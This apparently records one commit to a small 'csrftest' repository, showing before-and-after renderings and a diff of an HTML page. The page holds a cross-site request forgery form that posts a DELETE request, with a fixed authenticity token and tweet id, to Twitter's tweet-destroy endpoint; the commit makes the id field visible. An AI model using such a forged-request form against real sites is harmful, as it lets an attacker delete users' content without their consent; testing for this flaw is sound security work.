

Before and after one commit to ianzy/csrftest, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -5,7 +5,7 @@
 <form action="https://twitter.com/i/tweet/destroy" method="POST">
 <input type="hidden" name="_method" value="DELETE" />
 <input type="hidden" name="authenticity_token" value="e3bc18ff728f94e9961442df6ff22029f2361719" />
-<input type="hidden" name="id" value="1116453671997325312" />
+<input name="id" value="1116453671997325312" />
 <input type="submit" value="Submit request" />
 </form>
 </body>
```
